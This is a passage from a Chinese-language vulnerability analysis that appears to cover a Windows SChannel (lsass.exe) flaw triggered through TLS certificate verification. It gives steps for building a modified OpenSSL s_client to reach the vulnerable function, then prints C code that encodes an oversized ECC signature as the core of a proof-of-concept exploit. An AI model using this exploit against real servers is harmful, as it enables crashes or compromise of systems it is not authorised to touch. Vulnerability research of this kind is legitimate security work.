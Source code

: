 编译修改后的代码，切换当前目录为 openssl-1.0.1j/apps/，通过命令./openssl s_client -connect xxx.xxx.xxx.xxx:443 -cert cert.pem -key ec_key.pem -verify 5 连接服务端，在服务器端的 lsass.exe 进程的 NTSTATUS __thiscall CSsl3TlsServerContext::DigestCertVerify(int this, unsigned __int8 *a2, unsigned int a3)函数上设置断点，可以看到触发了断点。

![enter image description here](img/img9_u23_png.jpg)

## POC 构造

* * *

下面构造签名部分，即 CryptDecodeObject 解码的数据，为了能够得到可控的解码后的数据，调用 CryptEncodeObject 对我们想要的数据进行编码，这样只要编码成功，CryptDecodeObject 就总是可以解码成功。

```
BYTE* GetDecodeObject()
{
CERT_ECC_SIGNATURE sig;
    char pData[0x1000];
    memset( pData , 0xcc , 0x1000 );
    sig.r.pbData = (BYTE*)pData;
    sig.r.cbData = 0x20;
    sig.s.cbData = 0x1000;
    sig.s.pbData = (BYTE*)pData;
    DWORD cbEncoded = 0;
    if ( CryptEncodeObject( X509_ASN_ENCODING , X509_ECC_SIGNATURE , &sig , NULL , &cbEncoded ) )
    {
        unsigned char *pEnc = new unsigned char[cbEncoded];
        CryptEncodeObject( X509_ASN_ENCODING , X509_ECC_SIGNATURE , &sig , (BYTE*)pEnc , &cbEncoded );
        return pEnc;
    }
    return NULL;
}

```
